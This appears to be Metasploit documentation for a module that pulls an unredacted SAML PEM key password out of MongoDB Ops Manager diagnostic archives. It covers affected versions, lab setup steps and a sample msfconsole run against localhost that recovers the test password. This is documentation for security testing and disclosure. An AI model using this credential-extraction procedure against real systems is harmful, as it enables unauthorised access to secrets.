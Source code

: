 ## Vulnerable Application

MongoDB Ops Manager Diagnostics Archive does not redact SAML SSL Pem Key File Password
field (`mms.saml.ssl.PEMKeyFilePassword`) within app settings. Archives do not include
the PEM files themselves. This module extracts that unredacted password and stores
the diagnostic archive for additional manual review.

This issue affects MongoDB Ops Manager v5.0 prior to 5.0.21 and
MongoDB Ops Manager v6.0 prior to 6.0.12.

API credentials with the role of `GLOBAL_MONITORING_ADMIN` or `GLOBAL_OWNER` are required.

Successfully tested against MongoDB Ops Manager v6.0.11.

### Install on Ubuntu 22.04

1. Download mongodb server deb from https://www.mongodb.com/download-center/community/releases/archive .
 Look for: `Server Package: mongodb-org-server_6.0.11_amd64.deb`
2. Download the 1.4gig ops manager (mms) deb from https://www.mongodb.com/subscription/downloads/archived
3. `sudo apt-get install snmp`
4. `sudo dpkg -i mongodb-org-server_6.0.11_amd64.deb`
5. `sudo dpkg -i mongodb-mms-*`
6. `sudo nano /opt/mongodb/mms/conf/conf-mms.properties` and add a new field at the bottom of the file: `mms.saml.ssl.PEMKeyFilePassword=FINDME`
7. `sudo systemctl start mongod.service`
8. `sudo systemctl start mongodb-mms.service` (wait a little while for it to initialize and run)
9. Browse to http://<ip>>:8080/account/register and perform the install, the SMTP fields can use values for a server which doesn't exist.
10. Top left corner of the page after install should be "Project 0", click the drop down and create new project. Any name is fine, I called it 'test'
11. Top right of the screen, click Admin, API Keys, Create API Key. Create a new key, for permissions select
`Global Monitoring Admin` or `Global Owner` (or both).

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/mongodb_ops_manager_diagnostic_archive_info`
1. Do: `set API_PUBKEY [API_PUBKEY]`
1. Do: `set API_PRIVKEY [API_PRIVKEY]`
1. Do: `run`
1. You should find similar output to the following: `Found ubuntu22-0-bgrid's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME`

## Options

### API_PUBKEY

Public Key for the API key that was created with `Global Monitoring Admin` or `Global Owner` permissions.

### API_PRIVKEY

Private Key for the API key that was created with `Global Monitoring Admin` or `Global Owner` permissions.

## Scenarios

### Mongodb OPS Manager 6.0.11 on Ubuntu 22.04

```
msf > use auxiliary/gather/mongodb_ops_manager_diagnostic_archive_info
msf auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > set API_PUBKEY zmdhriti
API_PUBKEY => zmdhriti
msf auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > set API_PRIVKEY fd2faf05-18bc-4e6b-8ea1-419f3e8f95bc
API_PRIVKEY => fd2faf05-18bc-4e6b-8ea1-419f3e8f95bc
msf auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > set verbose true
verbose => true
msf auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) > run 
[*] Running module against 127.0.0.1

[*] Checking for orgs
[*] Looking for projects in org 65e86256961a9b1cc98c6c8b
[+]   Found project: Project 0 (65e86256961a9b1cc98c6c8f)
[+] Stored Project Diagnostics files to /root/.msf4/loot/20240307151114_default_127.0.0.1_mongodb.ops_mana_015137.gz
[*]     Opening project_diagnostics.tar.gz
[+] Found ubuntu22-0-bgrid's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME
[+] Found ubuntu22-0-mms's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME
[+]   Found project: test (65e86331961a9b1cc98c6db7)
[+] Stored Project Diagnostics files to /root/.msf4/loot/20240307151114_default_127.0.0.1_mongodb.ops_mana_205173.gz
[*]     Opening project_diagnostics.tar.gz
[+] Found ubuntu22-0-bgrid's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME
[+] Found ubuntu22-0-mms's unredacted mms.saml.ssl.PEMKeyFilePassword: FINDME
[*] Auxiliary module execution completed
msf auxiliary(gather/mongodb_ops_manager_diagnostic_archive_info) >
```
